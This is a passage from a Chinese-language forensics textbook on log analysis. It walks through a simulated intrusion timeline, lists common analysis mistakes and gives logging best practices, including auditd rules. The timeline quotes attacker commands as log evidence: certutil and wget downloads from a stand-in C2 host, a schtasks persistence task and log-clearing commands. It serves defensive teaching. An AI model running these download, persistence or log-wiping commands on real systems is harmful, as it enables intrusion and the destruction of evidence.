10:32:18   WAF日志: 192.168.1.100 被ModSecurity拦截 - 文件上传规则93801触发
10:32:20   Apache日志: 200 OK - 文件上传成功（WAF规则绕过后门文件）
10:32:21   Auditd日志: /var/www/html/wp-content/uploads/shell.php 创建（www-data进程）
```

**分析发现**：攻击者利用 WordPress 插件漏洞上传了 WebShell。WAF 规则虽然触发但没有阻断成功——规则配置为"记录"而非"阻止"模式。这是 WAF 部署中的常见错误，必须在事件后立即修正。

#### 持久化建立阶段（T1505 - WebShell）

```text
10:33:00   Auditd日志: www-data 执行 /usr/bin/php /var/www/html/shell.php
10:33:05   Auditd日志: www-data 执行 /usr/bin/wget http://c2.example.com/tool.exe
10:33:06   DNS日志: WEB-SRV 查询 c2.example.com (A记录)
10:33:15   Sysmon日志（WEB-SRV）: cmd.exe /c "certutil.exe -urlcache -split -f http://c2.example.com/tool.exe C:\Users\Public\tool.exe"
10:33:30   Sysmon日志（WEB-SRV）: 进程创建 cmd.exe /c "schtasks /create /tn Updater /tr C:\Users\Public\tool.exe /sc daily"
10:33:31   Security日志（WEB-SRV，事件ID 4698）: 创建计划任务 Updater
```

**分析发现**：攻击者通过 WebShell 下载了 C2 工具，并在 Windows 服务器上创建了定时任务实现持久化。certutil 的 `urlcache` 参数是攻击者常用的下载技术——它利用 Windows 内置工具绕过应用白名单。

#### 横向移动阶段（T1021 - 远程服务）

```text
10:44:30   Security日志（WEB-SRV，事件ID 4624，LogonType=3）: WEB-SRV登录域控DC-01
10:44:35   Security日志（DC-01，事件ID 4776）: NTLM验证 WEB-SRV
10:45:00   Security日志（DC-01，事件ID 4648）: 从 WEB-SRV 到 DC-01 的显式凭据登录
10:45:02   Security日志（DC-01，事件ID 4672）: DC-01 上分配管理员特权
10:45:10   Security日志（DC-01，事件ID 4732）: 攻击者将普通用户添加到 Domain Admins 组
10:45:15   Security日志（DC-01，事件ID 4720）: 创建后门用户 "support_admin"
10:45:16   Security日志（DC-01，事件ID 4732）: support_admin 加入 Domain Admins
```

**分析发现**：攻击者使用 Pass-the-Hash 技术从 WEB-SRV 横向移动到域控。通过创建后门用户并提升到 Domain Admins，获得了域内完全控制权。4648（显式凭据登录）配合 4776（NTLM验证）是检测横向移动的关键证据组合。

#### 数据窃取阶段（T1048 - 通过备用协议外传）

```text
10:48:00   FW日志: WEB-SRV 建立到 203.0.113.100 端口443的持续TLS连接
10:48:05   DNS日志: WEB-SRV 查询 exfil.example.com (CNAME)
10:48:10   Sysmon日志: 已知恶意进程创建网络连接到 203.0.113.100:443
10:50:00   代理日志: 从 WEB-SRV 上传加密文件（累计大小约 500MB）
10:50:01   Security日志（DC-01，事件ID 5140）: 访问共享 \\DC-01\C$\Users\ （敏感目录）
```

**分析发现**：攻击者通过 HTTPS 加密隧道外传数据（500MB），这解释了异常外连的告警来源。同时，事件 5140 显示攻击者访问了域控的 C$ 管理共享——这是数据窃取的直接证据。

#### 痕迹清理阶段（T1070 - 指示器清除）

```text
10:55:00   Security日志（WEB-SRV，事件ID 1102）: WEB-SRV 安全日志被清除
10:55:05   Sysmon日志: cmd.exe /c "wevtutil cl System"
10:55:06   Security日志（WEB-SRV，事件ID 1102）: WEB-SRV 系统日志被清除
10:55:10   Auditd日志: root 执行 /usr/bin/rm -f /var/log/auth.log
10:55:15   Sysmon日志: cmd.exe /c "del /f /q C:\Windows\System32\winevt\Logs\Security.evtx"
```

**分析发现**：攻击者在数据外传完成后系统性地清理了 WEB-SRV 上的所有日志（Security、System、auth.log）。**但关键问题在于：攻击者只能清理本地日志，无法清理已经通过 rsyslog 远传到中央 SIEM 服务器的日志。** 域控（DC-01）、防火墙和代理服务器上的日志未受破坏，取证团队仍然完整还原了攻击链。

#### 案例复盘

| 攻击阶段 | MITRE ATT&CK | 关键日志源 | 检测指标 |
|---------|-------------|-----------|---------|
| 初始访问 | T1190 | Apache + WAF日志 | 异常POST请求，文件上传 |
| 持久化 | T1505.003 | Auditd + Sysmon | PHP执行异常命令，schtasks创建 |
| 横向移动 | T1021.002 | Security日志 | 4648 + 4776 + 4672 事件链 |
| 数据窃取 | T1048.002 | FW + DNS + 代理日志 | 异常外连，大量数据上传 |
| 痕迹清除 | T1070.001 | Security + Sysmon | 事件ID 1102 + 日志文件删除 |

> **核心教训**：集中式日志收集（rsyslog/NxLog/Syslog Forwarder）是对抗日志清除的最有效手段。攻击者入侵一台服务器后只能清理本地日志，但已经远传到中央服务器的日志无法被删除。

---

### 25.4.15 日志分析常见误区

| # | 误区 | 正确做法 |
|---|------|---------|
| 1 | 只看 Windows 安全日志，忽略其他日志源 | 安全日志只是冰山一角。Sysmon、PowerShell 操作日志、AppLocker 日志、DNS 查询日志、WAF 日志等同样包含关键线索 |
| 2 | 时间戳不做归一化处理 | 不同系统可能处于不同时区，甚至系统时间本身可能被攻击者篡改。必须将所有时间戳统一到 UTC 后再进行比较 |
| 3 | 误以为日志删除 = 证据消失 | 即使在日志被清除的情况下，NTFS 文件系统中可能仍然存在日志文件的残留内容（通过 $MFT 或 $LogFile 恢复），VM 快照中也包含被删除日志的历史数据，中央日志服务器上还有远传的副本 |
| 4 | 过度依赖自动化工具 | Hayabusa 和 Chainsaw 能快速筛选异常，但只有人工结合业务上下文才能做出准确判断。自动化工具漏报和误报都是常态 |
| 5 | 忽略日志轮转策略 | 如果日志轮转周期是7天而攻击发生在8天前，日志已经轮转覆盖了。事故响应前必须先检查日志保留策略和轮转配置 |
| 6 | 凭单一 IP 认定攻击者 | 攻击者可能使用 VPN、代理链或僵尸网络作为跳板。一个 IP 背后可能是多个攻击者，一个攻击者也可能使用多个 IP |
| 7 | 只关注"成功"事件 | "失败"事件同样包含重要信息。大量 4625（登录失败）可以揭示攻击者的侦察行为和目标账户枚举 |
| 8 | 忽略正常基线 | 没有建立正常行为基线，就无法识别异常。定期审计正常用户的登录模式、访问时间和操作范围是有效分析的前提 |
| 9 | 分析时不记录操作日志 | 取证分析本身也应被记录——使用了什么命令、筛选了什么条件、得到了什么结果。分析过程的可复现性是证据有效性的保障 |

---

### 25.4.16 日志取证最佳实践

1. **集中式日志收集**：使用 rsyslog、NxLog 或 Beats 将全公司日志实时发送到中央日志平台（SIEM/ELK/Splunk），确保日志在攻击者触及之前已经远传。这是对抗日志清除的最有效手段。推荐架构：

```text
   各服务器(端点日志) ──syslog/TLS──→ 中央日志服务器(rsyslog)
   各服务器(应用日志) ──filebeat──→  Logstash ──→ Elasticsearch ──→ Kibana
   网络设备(防火墙/代理) ──syslog──→ 中央日志服务器
   云环境(CloudTrail/Azure Log) ──定时同步──→ 中央日志服务器
   ```

2. **日志保留策略**：根据法规要求（如 GDPR、等保2.0、《网络安全法》），安全日志至少保留6-12个月。攻击者从入侵到被发现的中位时间（Dwell Time）在2024年已超过200天，短期保留将导致无法回溯。关键日志建议保留更长时间（12-24个月）。

3. **开启详细审计**：对于 Windows 系统，务必启用 PowerShell 脚本块日志记录（4104事件）、命令行审计（4688事件的 ProcessId 和 CommandLine）、Sysmon。对于 Linux，部署 auditd 并配置关键文件监控规则。审计不完整等于没有审计。

4. **日志完整性保护**：使用远程日志服务器 + WORM（一次写入多次读取）存储，或使用 Guardtime KSI 等区块链日志方案，确保日志在产生后无法被篡改。本地日志文件的完整性也可以通过 `Tripwire` 或 `AIDE` 等文件完整性监控工具来保护。

5. **定期演练**：每季度进行一次日志分析演练，模拟真实攻击场景并检验日志分析流程的有效性。演练内容应覆盖：日志采集→时间线构建→攻击还原→报告输出的完整流程。

6. **建立正常基线**：在日常运维中建立正常的行为基线——正常的登录时间、正常的访问来源、正常的操作频率。没有基线就没有异常检测。推荐使用 ELK 或 Splunk 的 MLTK（Machine Learning Toolkit）自动建立基线。

7. **日志访问控制**：中央日志平台本身也需要严格的安全控制。如果攻击者获取了日志平台的管理权限，他们可以删除所有远传的日志。建议：日志管理员使用独立的特权账户（不与日常账户共用），启用 MFA，记录所有查询操作。

```bash
# 审计日志平台自身的访问日志（以ELK为例）
# 在Kibana中查询对日志的删除操作
GET forensics-logs-*/_search
{
  "query": {
    "bool": {
      "must": [
        { "term": { "action": "delete" } },
        { "range": { "@timestamp": { "gte": "now-7d" } } }
      ]
    }
  }
}

# 推荐的Linux auditd关键监控规则（汇总）
cat > /etc/audit/rules.d/forensics.rules << 'EOF'
# 监控/etc目录下的所有文件修改
-w /etc -p wa -k etc-change
# 监控敏感的Web目录
-w /var/www/html -p wa -k web-change
# 监控/bin目录下的可执行文件
-w /bin -p x -k binary-execution
-w /usr/bin -p x -k binary-execution
# 监控用户和组配置文件
-w /etc/passwd -p wa -k user-modify
-w /etc/shadow -p wa -k password-modify
-w /etc/group -p wa -k group-modify
# 监控sudo配置
-w /etc/sudoers -p wa -k sudoers-change
-w /etc/sudoers.d/ -p wa -k sudoers-change
# 监控SSH配置
-w /etc/ssh/sshd_config -p wa -k ssh-config
# 监控计划任务
-w /etc/crontab -p wa -k cron-change
-w /etc/cron.d/ -p wa -k cron-change
-w /var/spool/cron/ -p wa -k cron-change
# 监控系统启动项
-w /etc/init.d/ -p x -k init-exec
-w /etc/systemd/system/ -p wa -k systemd-change
EOF
# 重新加载auditd规则
augenrules --load
```

---

### 总结

日志分析技术是数字取证的核心支柱，贯穿从单台服务器的事件日志到成千上万节点的 SIEM 平台。本节系统性地覆盖了以下知识体系：

- **Windows 事件日志**：Security/Sysmon/PowerShell 三驾马车，配合 Hayabusa 和 Chainsaw 高效分析
- **Linux 审计日志**：auth.log/auditd/journalctl 三层体系，auditd 是检测 WebShell 和系统调用的利器
- **macOS 统一日志**：`log show` + `log collect` 的取证级采集方法
- **Web 服务器日志**：从访问日志中检测 SQL 注入、XSS、扫描器和数据泄露
- **数据库审计日志**：MySQL/PostgreSQL/MSSQL 的审计配置和分析方法
- **网络设备日志**：防火墙、代理、DNS 的日志分析与攻击检测
- **云环境日志**：AWS CloudTrail、Azure Activity Log、GCP Audit Log 的取证分析
- **容器环境日志**：Docker 和 Kubernetes 的日志采集与异常检测
- **日志关联分析**：四维关联模型（时间/IP/用户/事件）+ ELK/Splunk 实战
- **日志篡改检测**：识别攻击者的反取证行为
- **自动化智能检测**：Sigma 规则 + 统计异常 + 机器学习方法

掌握这些技术，你将在数字取证调查中拥有坚实的技术基础。但请记住：**日志分析的终极目标不是找到某个 IP 或某个事件 ID，而是还原出完整的攻击故事**——从攻击者如何进入、做了什么、窃取了什么、如何离开，到我们应该如何防止类似事件再次发生。技术是手段，叙事才是目的。
